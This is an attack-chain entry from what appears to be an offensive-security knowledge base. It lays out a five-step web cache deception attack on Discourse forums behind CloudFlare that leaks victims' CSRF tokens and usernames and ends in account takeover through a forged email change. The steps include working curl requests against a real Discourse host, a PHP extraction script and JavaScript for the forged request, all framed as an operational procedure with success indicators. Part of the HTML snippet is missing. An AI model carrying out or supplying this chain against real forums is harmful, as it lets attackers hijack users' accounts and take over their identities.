

---
tags:
  - web-cache-deception
  - csrf-leak
  - account-takeover
  - cloudflare
  - discourse
type: attack_chain
tools:
  - '[[tools/PHP-for-Server-Side-Extraction]]'
  - '[[tools/JavaScript-for-Client-Side-Exploitation]]'
  - '[[tools/CloudFlare-Proxy]]'
tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
  - '[[Defense Evasion]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Identify-Vulnerable-Discourse-Routes-Exposing-CSRF-Tokens]]'
  - >-
    [[procedures/Trigger-CloudFlare-Caching-of-Dynamic-Content-via-CSS-Extension]]
  - '[[procedures/Taint-CloudFlare-Cache-Using-Victims-Browser]]'
  - '[[procedures/Extract-Leaked-CSRF-Token-and-Username-from-Cache]]'
  - '[[procedures/Forge-Email-Change-Request-Using-Leaked-Credentials]]'
step_count: 5
techniques:
  - '[[Drive-by Compromise]]'
  - '[[JavaScript]]'
  - '[[Valid Accounts]]'
updated_at: '2025-12-14T17:33:24.445Z'
description: >-
  Multi-stage attack exploiting Discourse's lack of cache headers combined with
  CloudFlare's static file caching to poison the cache with victim-specific CSRF
  tokens and usernames, enabling server-side extraction and account takeover via
  email change.
skill_level: intermediate
impact_level: high
id: a997f123-3cb8-49f1-ae34-cb11daa8c35a
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
  - '[[Defense Evasion]]'
mitre_techniques:
  - '[[Drive-by Compromise]]'
  - '[[JavaScript]]'
  - '[[Valid Accounts]]'
---
# Discourse Web Cache Deception via CloudFlare for CSRF Token Leak and Account Takeover

Multi-stage attack chain demonstrating a complete workflow to exploit Web Cache Deception in Discourse forums behind a CloudFlare proxy, leading to CSRF token leakage and account takeover.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/PHP-for-Server-Side-Extraction]]
- [[tools/JavaScript-for-Client-Side-Exploitation]]
- [[tools/CloudFlare-Proxy]]

### Target Environment

- Discourse forum (Ruby on Rails) behind CloudFlare proxy
- Web platform with user authentication
- Attacker in the same CloudFlare region as the target

### Initial Access Requirements

- Ability to host a malicious webpage (e.g., via PHP server)
- Victim must visit the attacker's malicious page while authenticated to the target Discourse instance
- No direct credentials needed; relies on social engineering to lure victim

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Routes
procedure: [[procedures/Identify-Vulnerable-Discourse-Routes-Exposing-CSRF-Tokens]]

**Objective**: Locate Discourse routes that expose user-specific CSRF tokens and usernames without cache-control headers.

**Instructions**: Manually inspect or use browser dev tools to check routes like /u/my/preferences, /u/my/preferences/username, /u/my/preferences/card-badge, and /u/x (for 404). Verify presence of <meta name="csrf-token"> in HTML and X-Discourse-Username in headers. No commands needed initially; use browser to confirm lack of Pragma, Cache-Control, or Expires headers.

**Expected Output**: HTML with CSRF meta tag and headers showing username; status 200 or 404 with X-Discourse-Route: users/*.

**Success Indicators**:
- CSRF token visible in source
- No-cache headers absent

### Step 2: Trigger CloudFlare Caching with .css Extension
procedure: [[procedures/Trigger-CloudFlare-Caching-of-Dynamic-Content-via-CSS-Extension]]

**Objective**: Append .css to routes to exploit CloudFlare's static file caching rules, populating the regional cache with dynamic content.

**Instructions**: While authenticated, issue requests to tainted URLs. Use curl for testing:

```bash
curl -H "Host: try.discourse.org" "https://try.discourse.org/u/x.css"
```

Follow with:

```bash
curl "https://try.discourse.org/u/my/preferences.css"
```

Second request to same URL should show CF-Cache-Status: HIT.

**Expected Output**: First request: 200/404 with user data; second: CF-Cache-Status: HIT.

**Success Indicators**:
- Cache hit on repeat request
- User-specific content cached regionally

### Step 3: Taint CloudFlare Cache Using Victim's Browser
procedure: [[procedures/Taint-CloudFlare-Cache-Using-Victims-Browser]]

**Objective**: Lure victim to a malicious page that forces their browser to request and cache victim-specific content.

**Instructions**: Host a malicious HTML page with  tags loading /u/$rand.css (random $rand). Use JavaScript onerror on the third img to trigger next steps. Example HTML snippet:

```html

<script>function f() { /* proceed */ }</script>
```

Victim visits this page while logged into Discourse.

**Expected Output**: Browser requests populate cache with victim's CSRF token and username.

**Success Indicators**:
- Network tab shows requests to .css URLs
- onerror fires after three loads

### Step 4: Extract Leaked CSRF Token and Username from Cache
procedure: [[procedures/Extract-Leaked-CSRF-Token-and-Username-from-Cache]]

**Objective**: Server-side fetch the tainted cache to parse and retrieve the leaked data.

**Instructions**: Use PHP script on attacker's server in same CloudFlare region. Create context:

```php
$ctx = stream_context_create(['http' => ['ignore_errors' => true]]);
$data = file_get_contents($discourse . '/u/' . $f . '.css', false, $ctx);
preg_match('/name="csrf-token" content="([a-zA-Z0-9\/=+\/]+)"/', $data, $matches);
preg_match('/X-Discourse-Username: (.*)/', implode("\n", $http_response_header), $name_matches);
```

Where $discourse is target URL, $f is random from taint step.

**Expected Output**: $matches[1] = CSRF token; $name_matches[1] = username.

**Success Indicators**:
- Token and username extracted
- Data matches victim's

### Step 5: Forge Email Change Request Using Leaked Credentials
procedure: [[procedures/Forge-Email-Change-Request-Using-Leaked-Credentials]]

**Objective**: Use extracted token to impersonate victim and change their email for takeover.

**Instructions**: JavaScript on attacker's page constructs XMLHttpRequest:

```javascript
var xhr = new XMLHttpRequest();
xhr.open('POST', discourse + '/users/' + user + '/preferences/email.json', true);
xhr.setRequestHeader('Accept', 'text/html');
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.withCredentials = true;
var body = '_method=PUT&email=' + encodeURIComponent(change_email_to) + '&authenticity_token=' + encodeURIComponent(csrf);
var aBody = new Uint8Array(body.length);
for(var i = 0; i < aBody.length; i++) aBody[i] = body.charCodeAt(i);
xhr.send(new Blob([aBody]));
```

Attacker clicks verification link in received email to complete.

**Expected Output**: 200 OK; verification email to attacker; victim notified post-change.

**Success Indicators**:
- Email changed successfully
- Attacker controls account

## Attack Chain Summary

### Key Achievements

1. Poisoned CloudFlare cache with victim data via Web Cache Deception
2. Leaked CSRF token and username without direct access
3. Achieved account takeover by forging authenticated request

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]]
- [[JavaScript]]
- [[Valid Accounts]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]
- [[Defense Evasion]]

---
*Last updated: 2023-10-01T00:00:00Z*
